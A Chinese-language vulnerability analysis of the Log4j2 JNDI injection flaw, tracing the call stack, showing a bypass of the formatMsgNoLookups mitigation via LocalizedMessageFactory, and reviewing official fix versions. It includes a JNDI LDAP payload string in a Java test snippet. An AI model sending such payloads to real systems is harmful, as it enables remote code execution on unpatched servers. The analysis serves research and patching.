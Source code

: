 # Log4j2 JNDI注入分析


## 漏洞触发流程
漏洞触发过程的调用栈如下：
```
lookup:172, JndiManager (org.apache.logging.log4j.core.net)
lookup:56, JndiLookup (org.apache.logging.log4j.core.lookup)
lookup:223, Interpolator (org.apache.logging.log4j.core.lookup)
resolveVariable:1116, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:1038, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:912, StrSubstitutor (org.apache.logging.log4j.core.lookup)
replace:467, StrSubstitutor (org.apache.logging.log4j.core.lookup)
format:132, MessagePatternConverter (org.apache.logging.log4j.core.pattern)
format:38, PatternFormatter (org.apache.logging.log4j.core.pattern)
toSerializable:345, PatternLayout$PatternSerializer (org.apache.logging.log4j.core.layout)
toText:244, PatternLayout (org.apache.logging.log4j.core.layout)
encode:229, PatternLayout (org.apache.logging.log4j.core.layout)
encode:59, PatternLayout (org.apache.logging.log4j.core.layout)
directEncodeEvent:197, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryAppend:190, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
append:181, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryCallAppender:156, AppenderControl (org.apache.logging.log4j.core.config)
callAppender0:129, AppenderControl (org.apache.logging.log4j.core.config)
callAppenderPreventRecursion:120, AppenderControl (org.apache.logging.log4j.core.config)
callAppender:84, AppenderControl (org.apache.logging.log4j.core.config)
callAppenders:543, LoggerConfig (org.apache.logging.log4j.core.config)
processLogEvent:502, LoggerConfig (org.apache.logging.log4j.core.config)
log:485, LoggerConfig (org.apache.logging.log4j.core.config)
log:460, LoggerConfig (org.apache.logging.log4j.core.config)
log:82, AwaitCompletionReliabilityStrategy (org.apache.logging.log4j.core.config)
log:161, Logger (org.apache.logging.log4j.core)
tryLogMessage:2198, AbstractLogger (org.apache.logging.log4j.spi)
logMessageTrackRecursion:2152, AbstractLogger (org.apache.logging.log4j.spi)
logMessageSafely:2135, AbstractLogger (org.apache.logging.log4j.spi)
logMessage:2011, AbstractLogger (org.apache.logging.log4j.spi)
logIfEnabled:1983, AbstractLogger (org.apache.logging.log4j.spi)
error:740, AbstractLogger (org.apache.logging.log4j.spi)
main:9, Test
```
`toSerializable:345, PatternLayout$PatternSerializer`之前的调用栈不怎么需要关注，在PatternLayout中，toSerializable函数会调用各个Converter对event进行处理（log4j2对每条日志通过MessageFactory创建message对象，然后创建event将message加入其中对event进行异步处理）
![](media/16393044809899/16393650967152.jpg)
`MessagePatternConverter`类的format方法会根据是否开始了lookup功能对日志内容进行lookup操作（[Log4j - Log4j 2 Lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html)）
首先会判断是否开始lookup功能，如果开启了lookup功能format函数会开始获取日志内容中被${}包含的内容认为是需要进行lookup动作的变量，进入replace流程，对变量进行替换
![](media/16393044809899/16393657792587.jpg)

在`StrSubstitutor`类的substitute方法，调用resolveVariable开始对变量进行处理
![](media/16393044809899/16393665967889.jpg)
在Interpolator类中lookup方法会根据冒号拆分输入进来的变量获取prefix也就是需要什么类型的lookup，然后从strLookupMap中根据字符串获取对应lookup类的对象，所有类型的lookup会被预先加载到这个map当中，这里获取到jndiLookup的对象然后调用其lookup方法
![](media/16393044809899/16393683297146.jpg)
lookup方法最终调用jndiManager的lookup函数触发漏洞
![](media/16393044809899/16393688340997.jpg)

## 修复方式的一些问题

各种文章给出的修复方式很多，这里提一个小问题，影响不大

跟多修复方案提到了设置log4j2.formatMsgNoLookups为true，但这里看`MessagePatternConverter`类的format方法有两处replace的调用点

![](media/16393044809899/16393736999681.jpg)

第一处就是正常利用进入的地方需要判断formatMsgNoLookups是否为false，第二处不需要判断，但需要满足msg的类型不能是`StringBuilderFormattable`并且`result`不能为null

从这段代码中可以看到msg是通过`event.getMessage()`获取的是一个Message类型的对象，`StringBuilderFormattable`是一个interface，之需要找一个类实现了Message但是没有实现StringBuilderFormattable就可以了，Message接口的实现类如下：

![](media/16393044809899/16393750258501.jpg)
逐个找可以发现一个LocalizedMessage类是满足需要的，在log4j中，Message对象都是通过MessageFactory创建的系统也内置了LocalizedMessageFactory工厂类，在getlogger时可以通过参数设置使用哪一个MessageFactory，实际代码测试一下，这里随便选择一个ResourceBundle的实现类
```java
AuthResources resourceBundle = new AuthResources();
LocalizedMessageFactory localizedMessageFactory = new LocalizedMessageFactory(resourceBundle);
Logger logger =  LogManager.getLogger(Test.class,localizedMessageFactory);
logger.error("${jndi:ldap://127.0.0.1:1111/Exp1}");
```
可以看到在关闭lookup的情况下依旧是可以触发的
![](media/16393044809899/16393756929738.jpg)
但这个利用场景就非常有限了，要求代码必须要指定特定的MessageFactory，但在推修过程中如果选择设置log4j2.formatMsgNoLookups为true这种方式，还是需要扫描代码在getlogger时是否自定义了MessageFactory，LocalizedMessageFactory因为默认是没有提供无参构造函数的，所以只能在代码中实例化，无法通过配置文件进行配置，其他MessageFactory需要检查配置文件中是否有lo4j2.messageFactory配置项

## 官方修复方案的几个版本

### 2.15.0-rc1
在2.15.0的代码中，lookup默认是关闭的，开启需要在配置文件的pattern中指明%msg{lookups}%n开启lookup功能

在JndiManager这个类的lookup增加了白名单功能限制协议头和请求地址，默认的协议头支持java、ldap、ldaps，默认的地址只支持本地地址，但实际实现有明显瑕疵，处理URI如果异常就可以直接触发漏洞了

### 2.15.0-rc2
处理URI白名单补充了异常退出，捕获异常后不进入lookup流程

### 2.15.1-rc1
增加JndiLookup开关log4j2.enableJndi默认为false，默认关闭lookup开关和JndiLookup开关

### 2.16.0-rc1
参数中不再支持lookup功能

## 总结
临时方案先处理处理，让官方慢慢修，让子弹飞一会，让几千开发大哥天天追更不合适